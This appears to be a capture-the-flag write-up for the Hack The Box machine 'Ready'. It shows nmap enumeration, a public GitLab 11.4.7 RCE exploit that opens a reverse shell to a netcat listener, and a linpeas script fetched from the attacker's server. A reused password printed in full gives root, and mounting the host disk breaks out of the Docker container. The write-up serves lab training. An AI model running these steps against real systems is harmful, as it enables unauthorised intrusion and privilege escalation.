


---
search:
  exclude: true
---
# Ready Writeup

## Introduction :

Ready is a Medium Linux box released back in December 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Ready]
    → nmap -vvv -p- 10.10.10.220 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.220
    Discovered open port 5080/tcp on 10.10.10.220
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Ready]
    → nmap -sCV -p22,5080 10.10.10.220
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 10:01 CEST
    Nmap scan report for 10.10.10.220
    Host is up (0.54s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    5080/tcp open  http    nginx
    | http-robots.txt: 53 disallowed entries (15 shown)
    | / /autocomplete/users /search /api /admin /profile
    | /dashboard /projects/new /groups/new /groups/*/edit /users /help
    |_/s/ /snippets/new /snippets/*/edit
    | http-title: Sign in \xC2\xB7 GitLab
    |_Requested resource was http://10.10.10.220:5080/users/sign_in
    |_http-trane-info: Problem with XML parsing of /evox/about
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 34.70 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 5080 so let's investigate it:

We can register an account and login, and when we take a look at the help tab we see that we're on an outdated GitLab CE version:

So from here we can look for CVEs from exploit-db:
    
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Ready]
    → searchsploit gitlab CE
    ----------------------------------------------------------------- ---------------------------------
     Exploit Title                                                   |  Path
    ----------------------------------------------------------------- ---------------------------------
    GitLab 11.4.7 - RCE (Authenticated) (2)                          | ruby/webapps/49334.py
    GitLab Community Edition (CE) 13.10.3 - 'Sign_Up' User Enumerati | ruby/webapps/49822.txt
    GitLab Community Edition (CE) 13.10.3 - User Enumeration         | ruby/webapps/49821.sh
    ----------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Ready]
    → cp $(locate 49334.py) .
    
    [ 10.77.77.77/24 ] [ /dev/pts/1 ] [~/HTB/Ready]
    → vim 49334.py
    
    

The python script is very easy to use:
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Ready]
    → python3 49334.py -u nihilist -p password -g http://10.10.10.220 -l 10.10.14.8 -P 9001
    [+] authenticity_token: aBcFFa35xDJUYMcMUr/9vzc2dejA2zNmxbE9EZ9n9m6SCbvMG0CpCMHOcHI31tGZC4sgrSwXQkRNN0nauj4vQw==
    [+] Creating project with random name: project235
    [+] Running Exploit
    [+] Exploit completed successfully!
    
    [terminal 2]
    [ 10.77.77.77/24 ] [ /dev/pts/14 ] [~/HTB/Ready]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 49454
    id
    uid=998(git) gid=998(git) groups=998(git)
    

And we get a reverse shell as the git user! Now let's upgrade our shell to a fully interactive TTY:
    
    
    id
    uid=998(git) gid=998(git) groups=998(git)
    which python python3 wget curl
    /opt/gitlab/embedded/bin/python3
    /usr/bin/wget
    /opt/gitlab/embedded/bin/curl
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    git@gitlab:~/gitlab-rails/working$ ^Z
    [1]  + 2656726 suspended  nc -lvnp 9001
    
    [ 10.77.77.77/24 ] [ /dev/pts/14 ] [~/HTB/Ready]
    → stty raw -echo ;fg
    [1]  + 2656726 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    git@gitlab:~/gitlab-rails/working$ export SHELL=bash
    git@gitlab:~/gitlab-rails/working$ stty rows 50 columns 200
    git@gitlab:~/gitlab-rails/working$ reset
    
    

Now that's done we can take a look at the 'dude' user's home directory to see if we have access to the user flag:
    
    
    git@gitlab:~/gitlab-rails/working$ ls -lash /home
    total 12K
    4.0K drwxr-xr-x 1 root root 4.0K Dec  2  2020 .
    4.0K drwxr-xr-x 1 root root 4.0K Dec  1  2020 ..
    4.0K drwxr-xr-x 2 dude dude 4.0K Dec  7  2020 dude
    git@gitlab:~/gitlab-rails/working$ ls -lash /home/dude
    total 24K
    4.0K drwxr-xr-x 2 dude dude 4.0K Dec  7  2020 .
    4.0K drwxr-xr-x 1 root root 4.0K Dec  2  2020 ..
       0 lrwxrwxrwx 1 root root    9 Dec  7  2020 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 dude dude  220 Aug 31  2015 .bash_logout
    4.0K -rw-r--r-- 1 dude dude 3.7K Aug 31  2015 .bashrc
    4.0K -rw-r--r-- 1 dude dude  655 May 16  2017 .profile
    4.0K -r--r----- 1 dude git    33 Dec  2  2020 user.txt
    git@gitlab:~/gitlab-rails/working$ cat /home/dude/user.txt
    e1XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we got the user flag!

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user we're going to use linpeas.sh to enumerate the box:
    
    
    [terminal 1]
    [ 10.77.77.77/24 ] [ /dev/pts/13 ] [~/HTB/Ready]
    → cp /home/nothing/HTB/Time/linpeas.sh .
    
    [ 10.77.77.77/24 ] [ /dev/pts/13 ] [~/HTB/Ready]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    git@gitlab:~/gitlab-rails/working$ wget http://10.10.14.8:9090/linpeas.sh -O /tmp/peas.sh
    --2021-07-05 08:31:12--  http://10.10.14.8:9090/linpeas.sh
    Connecting to 10.10.14.8:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 462687 (452K) [text/x-sh]
    Saving to: '/tmp/peas.sh'
    
    /tmp/peas.sh                                      100%[=============================================================================================================>] 451.84K   187KB/s    in 2.4s
    
    2021-07-05 08:31:15 (187 KB/s) - '/tmp/peas.sh' saved [462687/462687]
    
    git@gitlab:~/gitlab-rails/working$ chmod +x /tmp/peas.sh
    git@gitlab:~/gitlab-rails/working$ /tmp/peas.sh
    
    

` 

we let linpeas run a bit, and then when we scroll through the output we see a certain SMTP password:

And if you test it to see if there is password reuse to become root:
    
    
    git@gitlab:~/gitlab-rails/working$ su root
    Password:i **wW59U!ZKMbG9+*#h**
    root@gitlab:/var/opt/gitlab/gitlab-rails/working# id
    uid=0(root) gid=0(root) groups=0(root)
    root@gitlab:/var/opt/gitlab/gitlab-rails/working# cd ~
    root@gitlab:~# ls -l
    total 0
    
    

And we got root! however we're still in a docker container and we need to escape it. To do so we check the container capabilities with **capsh** :
    
    
    root@gitlab:~# capsh --print
    Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37+eip
    Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
    Securebits: 00/0x0/1'b0
     secure-noroot: no (unlocked)
     secure-no-suid-fixup: no (unlocked)
     secure-keep-caps: no (unlocked)
    uid=0(root)
    gid=0(root)
    groups=0(root)
    
    

So it seems that cap_sys_admin, cap_sys_ptrace, cap_dac_override, cap_dac_read_search and cap_sys_module are allowed, so it means that the container will allow the mounting of arbitrary partitions, including the main one used by the host, so we list the partitions:
    
    
    root@gitlab:~# fdisk -l
    Disk /dev/loop0: 55.5 MiB, 58159104 bytes, 113592 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    
    Disk /dev/loop1: 71.3 MiB, 74797056 bytes, 146088 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    
    Disk /dev/loop2: 31.1 MiB, 32571392 bytes, 63616 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    
    Disk /dev/loop3: 71.4 MiB, 74907648 bytes, 146304 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    
    Disk /dev/loop4: 31.1 MiB, 32595968 bytes, 63664 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    
    Disk /dev/loop5: 55.4 MiB, 58052608 bytes, 113384 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    
    Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disklabel type: gpt
    Disk identifier: 32558524-85A4-4072-AA28-FA341BE86C2E
    
    Device        Start      End  Sectors Size Type
    /dev/sda1      2048     4095     2048   1M BIOS boot
    /dev/sda2      4096 37746687 37742592  18G Linux filesystem
    /dev/sda3  37746688 41940991  4194304   2G Linux swap
    
    

We can safely assume that the host system's files are in **/dev/sda2** , so let's mount /dev/sda2 into **/mnt** :
    
    
    root@gitlab:~# mkdir /mnt/nihilist
    root@gitlab:~# mount /dev/sda2 /mnt/nihilist/
    root@gitlab:~# cd /mnt/nihilist/root/
    root@gitlab:/mnt/nihilist/root# ls -l
    total 16
    drwxr-xr-x  3 root root 4096 Dec  1  2020 docker-gitlab
    drwxr-xr-x 10 root root 4096 Jul  9  2020 ready-channel
    -r--------  1 root root   33 Jul  8  2020 root.txt
    drwxr-xr-x  3 root root 4096 May 18  2020 snap
    root@gitlab:/mnt/nihilist/root# cat root.txt
    b7XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to mount the host system's file system and got the root flag.

## **Conclusion**

Here we can see the progress graph :

